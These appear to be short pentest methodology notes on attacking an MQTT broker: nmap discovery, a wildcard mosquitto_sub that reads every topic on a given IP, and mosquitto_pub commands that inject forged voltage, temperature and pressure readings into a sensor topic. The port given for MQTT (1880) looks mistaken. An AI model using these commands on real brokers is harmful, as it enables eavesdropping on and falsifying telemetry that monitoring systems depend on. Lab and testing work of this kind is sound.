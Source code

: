 methodlogy
mqtt:
discover with nmap (look for 1880)
perform wildcard subscription to view alerts (and validate our own)
`mosquitto_sub -t "#" -h 192.94.218.3 -v`  
now if we either have credentials or if there is weak security we can publish our own updates to sensors
`mosquitto_pub -t "sensor" -m '{"voltage":"228.703144053156","temperature":"37.42692765207313","pressure":"50.8083798170982"}' -h 192.94.128.3`  
`mosquitto_pub -t "sensor" -m '{"voltage":"228.703144053156","temperature":"37.42692765207313","pressure":"50.8083798170982"}' -h 192.94.128.3`  
